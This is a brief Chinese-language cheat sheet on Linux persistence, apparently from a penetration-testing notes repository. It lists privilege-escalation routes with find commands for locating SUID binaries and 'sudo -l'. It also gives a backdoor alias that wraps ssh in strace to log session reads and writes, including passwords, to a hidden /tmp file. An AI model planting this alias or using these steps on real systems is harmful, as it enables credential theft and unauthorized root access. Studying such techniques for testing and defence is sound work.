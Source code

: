 持久化 - Linux
========================================

权限提升
----------------------------------------
- 内核漏洞利用
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \;``
- 利用可用的root权限
    - ``sudo -l``
- 利用误配置的 crontab 任务

后门
----------------------------------------
- strace 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
